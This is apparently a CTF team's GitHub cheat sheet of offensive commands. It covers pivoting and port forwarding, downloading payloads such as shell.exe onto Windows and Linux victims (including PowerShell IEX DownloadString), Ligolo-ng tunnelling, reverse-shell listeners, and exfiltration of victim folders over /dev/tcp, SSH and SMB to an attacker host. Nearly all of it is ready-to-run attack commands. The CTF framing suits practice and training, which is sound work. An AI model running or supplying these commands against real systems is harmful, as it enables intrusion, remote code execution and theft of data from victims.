# 🄿🅄🅁🄿🄻🄴🅂🅃🄾🅁🄼 🅃🅃🄿🅂

A collection of commands, tools, techniques and procedures of the purplestorm ctf team.

## Table of Contents

- [Basics]
  - [Stabilizing Linux shell](#stabilizing-linux-shell)
  - [Port forwarding](#port-forwarding-1)
  - [Transfering files](#transfering-files)
- [Tooling](#tooling)
  - [Swaks](#swaks)
  - [Ligolo-ng](#ligolo-ng)
  - [CrackMapExec](CrackMapExec.md)
- [C2](#c2)
  - [Sliver](Sliver.md)
- [Databases](#databases)
  - [SQL Injection](SQL%20Injection.md)
- [Payloads](#payloads)
  - [Reverse Shell](#reverse-shell)
- [Exfiltrating Data](#exfiltrating-data)


## Basics

### Stabilizing Linux shell

```
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset
screen
```

### Port forwarding

#### SSH:

On kali:

```
ssh -N -L 80:localhost:80 user@10.10.10.10 -C
```

#### Chisel:

```
./chisel server -p 8000 --reverse #Server -- Attacker
./chisel client 10.10.16.3:8000 R:100:172.17.0.1:100 #Client -- Victim
```

#### Socat:

On victim:

```
socat tcp-listen:8080,reuseaddr,fork tcp:localhost:9200 &
```

#### Netcat:

On victim:

```
nc -nlvp 8080 -c "nc localhost 1234"
```

## Transfering files

### Windows

cmd:

```
iwr -uri "http://10.10.10.10:8080/shell.exe" -outfile "shell.exe"

wget -O shell.exe 10.10.10.10:8000/shell.exe

certutil -urlcache -f  http://10.10.10.10:8000/shell.exe C:\inetpub\shell.exe
```

Powershell:

```
Invoke-WebRequest http://10.10.10.10:8000/shell.exe -OutFile shell.exe

powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.10.10:8000/shell.exe', 'shell.exe')"

powershell "IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10:8000/something.ps1')"
```

via SMB:

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .    # On attacker

copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe    # On target
```

### Linux

```
wget http://10.10.10.10:8000/some.sh

curl -o some.sh http://10.10.10.10:8000/some.sh
```

via base64:

```
cat shell.sh | base64 -w 0   # On attacker
echo <base64encoded> | base64 -d > shell.sh   # On target
```
via scp:
```
scp some.sh user@10.10.10.10:/tmp/some.sh   # On attacker
```

## Tooling

### Swaks

- [https://github.com/jetmore/swaks](https://github.com/jetmore/swaks)

```c
swaks --server example.com --port 587 --auth-user "user@example.com" --auth-password "password" --to "user@target.com" --from ""user@example.com" --header "Subject: foobar" --body "\\\<LHOST>\x"
```

### Ligolo-ng

- [https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)

#### Prepare Tunnel Interface

```c
$ sudo ip tuntap add user $(whoami) mode tun ligolo
```

```c
$ sudo ip link set ligolo up
```

#### Setup Proxy on Attacker Machine

```c
$ ./proxy -laddr <LHOST>:443 -selfcert
```

#### Setup Agent on Target Machine

```c
$ ./agent -connect <LHOST>:443 -ignore-cert
```

#### Configure Session

```c
ligolo-ng » session
```

```c
[Agent : user@target] » ifconfig
```

```c
$ sudo ip r add 172.16.1.0/24 dev ligolo
```

```c
[Agent : user@target] » start
```

#### Port Forwarding

```c
[Agent : user@target] » listener_add --addr <RHOST>:<LPORT> --to <LHOST>:<LPORT> --tcp
```

## Payloads

### Reverse Shell

- [https://github.com/calebstewart/pwncat](https://github.com/calebstewart/pwncat)

```
pip install pwncat-cs
Listener: pwncat-cs 192.168.1.1 4444
(To change from pwncat shell to local shell, use Ctrl+D)
```

## Exfiltrating Data

### Linux

#### via TCP socket, ebcdic and base64

On kali:

```
nc -nlvp 80 > datafolder.tmp
```

On target:

```
tar zcf - /tmp/datafolder | base64 | dd conv=ebcdic > /dev/tcp/10.10.10.10/80
```

On kali:

```
dd conv=ascii if=datafolder.tmp | base64 -d > datafolder.tar
tar xf datafolder.tar
```

#### via SSH

On target:

```
tar zcf - /tmp/datafolder | ssh root@<attacker_ip> "cd /tmp; tar zxpf -"
```

On kali:

```
cd /tmp/datafolder
```

### Windows

via SMB server:

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -username user -password pass share . -smb2support  # On kali
net use \\10.10.16.5\share /u:user pass   # On victim
copy C:\Users\user\Desktop\somefile.txt \\10.10.16.5\share\somefile.txt   # On victim
```

via pscp:

```
pscp Administrator@10.10.10.10:/Users/Administrator/Downloads/something.txt
```
